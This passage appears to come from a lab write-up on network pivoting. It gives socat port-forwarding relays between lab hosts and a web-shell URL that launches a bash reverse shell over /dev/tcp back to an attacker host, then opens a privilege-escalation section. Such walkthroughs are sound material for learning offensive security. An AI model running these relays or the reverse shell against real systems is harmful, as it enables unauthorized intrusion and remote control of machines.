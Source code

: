 ```bash
root 20.20.20.3
./socat TCP-LISTEN:443,fork TCP:20.20.20.2:442 
```

```bash
manchi 20.20.20.2
./socat TCP-LISTEN:442,fork TCP:10.10.10.1:441
```

![Image](../assets/img/post/littlepivoting/image-39.png)

```python
http://30.30.30.3/uploads/f.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/30.30.30.2/443+0%3E%261%27
```

![Image](../assets/img/post/littlepivoting/image-40.png)

## Privilege Escalation | SUID

![Image](../assets/img/post/littlepivoting/image-41.png)

sudo -l

![Image](../assets/img/post/littlepivoting/image-42.png)
